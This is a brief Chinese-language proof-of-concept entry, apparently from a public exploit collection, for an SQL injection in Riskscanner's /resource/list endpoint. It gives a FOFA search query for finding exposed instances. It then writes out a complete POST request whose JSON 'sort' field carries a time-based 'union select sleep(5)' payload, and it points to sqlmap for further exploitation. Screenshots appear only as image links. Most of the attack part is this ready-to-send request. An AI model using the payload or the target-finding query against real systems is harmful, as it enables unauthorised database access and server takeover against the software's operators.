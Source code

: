 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

```
Riskscanner
```

## FOFA

```
title="Riskscanner"
```

## 漏洞复现

登录页面



![](./images/202202101940023.png)



发送漏洞请求包



```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![](./images/202202101940005.png)



使用工具Sqlmap



![](./images/202202101940424.png)